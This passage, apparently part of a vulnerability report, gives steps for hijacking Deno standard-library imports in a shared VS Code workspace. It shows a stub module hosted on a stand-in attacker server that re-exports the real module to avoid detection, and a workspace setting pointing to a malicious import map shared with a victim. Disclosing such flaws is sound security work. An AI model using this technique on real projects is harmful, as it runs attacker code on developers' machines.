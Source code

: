 2. Host malicious code at `https://attacker-controlled-server.com/fake-std/http/server.ts` that contains:
```typescript
console.log("Malicious code executed");
// Add malicious payload here
export * from "https://deno.land/std/http/server.ts"; // Re-export the real module to avoid detection
```

3. Create or modify a VS Code workspace configuration to use this import map:
```json
{
  "deno.enable": true,
  "deno.importMap": "./malicious-map.json"
}
```

4. Share this workspace with a victim (e.g., through a GitHub repository)

5. When the victim opens the workspace and writes code that imports from `https://deno.land/std/`, the malicious code from the attacker's server will be executed instead of the legitimate module.
